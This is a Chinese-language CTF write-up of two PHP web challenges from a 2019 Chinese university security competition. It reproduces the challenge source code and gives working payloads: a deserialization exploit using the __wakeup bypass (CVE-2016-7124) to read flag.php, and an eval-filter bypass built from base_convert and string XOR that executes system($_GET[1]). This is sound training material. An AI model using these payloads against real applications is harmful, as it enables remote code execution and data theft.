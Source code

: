 ```yaml
---
title: 第十二届全国大学生信息安全竞赛西北赛区 部分题目 Writeup
tags: 
    - Writeup
    - CTF
date: 2019/4/22
---
```


## JustSoso

{% spoiler 题目源码 %}

```php
// index.php
<?php
error_reporting(0);
$file = $_GET["file"];
$payload = $_GET["payload"];
if(!isset($file)){
    echo 'Missing parameter'.'<br>';
}
if(preg_match("/flag/",$file)){
    die('hack attacked!!!');
}
@include($file);
if(isset($payload)){
    $url = parse_url($_SERVER['REQUEST_URI']);
    parse_str($url['query'],$query);
    foreach($query as $value){
        if (preg_match("/flag/",$value)) {
            die('stop hacking!');
            exit();
        }
    }
    $payload = unserialize($payload);
}else{
   echo "Missing parameters";
}
?>
<!--Please test index.php?file=xxx.php -->
<!--Please get the source of hint.php-->
</html>
```

```php
// hint.php
<?php
class Handle{
    private $handle;
    public function __wakeup(){
        foreach(get_object_vars($this) as $k => $v) {
            $this->$k = null;
        }
        echo "Waking up\n";
    }
    public function __construct($handle) {
        $this->handle = $handle;
    }
    public function __destruct(){
        $this->handle->getFlag();
    }
}

class Flag{
    public $file;
    public $token;
    public $token_flag;

    function __construct($file){
        $this->file = $file;
        $this->token_flag = $this->token = md5(rand(1,10000));
    }

    public function getFlag(){
        $this->token_flag = md5(rand(1,10000));
        echo 'asdf';
        if($this->token === $this->token_flag)
        {
            if(isset($this->file)){
                echo @highlight_file($this->file,true);
            }
        }
    }
}
?>
```

{% endspoiler %}

GET参数中含有file, LFI获得index.php源码, 根据其内容继续获得hint.php源码  
发现含有unserialize函数, 联系hint.php内容, 考察点为反序列化

有三处需要绕过:

1. parse_url 三斜杠绕过, 常规
2. `__wakeup` 绕过，[CVE-2016-7124](https://bugs.php.net/bug.php?id=72663)
3. 每次调用getFlag token_flag都会随机变化，可以将token赋值为token_flag 的引用绕过

故exploit如下:

```php
<?php
class Flag{}
class Handle{
    private $handle;
    function __construct($xx){
        $this->handle = $xx;
    }
}

$p = new Flag("flag.php");
$p->token = &$p->token_flag;
$p->file = "flag.php";
$pay = new Handle($p);
echo urlencode(serialize($pay));
```

## love the math

{% spoiler 题目源码 %}

```php
// calc.php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    eval('echo '.$content.';');
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

{% endspoiler %}

观察发现如下限制:

1. payload长度不可超过80
1. 可以执行任何数学函数
1. 有部分字符不可用( `$blacklist` )

由于80这个长度太短, 所以后期应当是通过取其它位置的可控输入点进行执行和输出
应当取能够返回字符串的数学函数, 加以拼接得到期望值
题目过滤了所有除数学函数名意外的英文字符, 所以应当利用纯数字构造payload

观察数学函数的输入输出, 发现涉及到不同进制的数学函数能够返回字符串。  
其中利用base_convert能获取更大的字符集, 但也更长  
原型：`base_convert(number,frombase,tobase)`
可以将字符串转为10进制或其它能够组成纯数字的进制来控制输入

验证: `url:/calc.php?c=base_convert(55490343972,10,36)()`
可以执行phpinfo  

> php > `echo base_convert('system', 36, 10);`
> 1751504350

考虑到进制转换只能转出小写字母, 此处利用php能将字符串互相异或的行为, 能够将多个16进制串进行异或得到大写字母。  
于是目的是：将两个`[a-z0-9]*`字符串异或得到`_GET`,利用`_GET{param}`获取到另一参数中引入的更长字串  
进行fuzz, fuzz代码:

```php
$table = "0123456789abcdefghijklmnopqrstuvwxyz";
for($i = 0; $i < 36; $i++){
    for($j = $i; $j < 36; $j++){
        echo $table[$i]^$table[$j];
        echo " ";
        echo $table[$i]." ".$table[$j];
        echo "\n";
    }
}
// php test.php| strings | grep "_"
// php test.php| strings | grep "G"
// php test.php| strings | grep "E"
// php test.php| strings | grep "T"
```

得到`"1000"^"nwud" == "_GET"`
所以能够构造出一句话payload:
`base_convert(1751504350,28,10)(${decoct(512)^base_convert(862402,10,33)}{1})`  
即`system($_GET[1])`
